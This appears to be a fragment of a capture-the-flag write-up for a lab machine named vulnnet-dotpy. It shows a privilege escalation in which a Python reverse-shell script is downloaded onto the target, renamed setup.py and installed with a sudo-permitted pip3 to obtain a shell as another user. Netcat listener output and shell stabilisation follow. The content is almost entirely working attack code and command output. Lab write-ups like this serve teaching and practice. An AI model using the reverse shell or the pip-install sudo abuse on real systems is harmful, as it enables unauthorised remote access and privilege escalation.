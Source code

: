 `nano pythonadmreverse.py`

```powershell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.2.37.37",10221))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

`nc -nlvp 10221`

```powershell
listening on [any] 10221 ...
```

`python3 -m http.server 8000`

```powershell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

```powershell
web@vulnnet-dotpy:/dev/shm/privadm$ wget http://10.2.37.37:8000/pythonadmreverse.py

pythonadmreverse.py 100%[===================>]     211  --.-KB/s    in 0s      

2024-12-27 09:55:01 (26.2 MB/s) - ‘pythonadmreverse.py’ saved [211/211]

web@vulnnet-dotpy:/dev/shm/privadm$ mv pythonadmreverse.py setup.py
web@vulnnet-dotpy:/dev/shm/privadm$ sudo -u system-adm /usr/bin/pip3 install .

Processing /dev/shm/privadm
```

```powershell
listening on [any] 10221 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.15.164] 57354

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ whoami
system-adm
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ pwd
/tmp/pip-jf81agq4-build
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ SHELL=/bin/bash script -q /dev/null
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ export TERM=xterm
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ groups
system-adm cdrom
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ getent group system-adm
system-adm:x:1000:
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ 
```

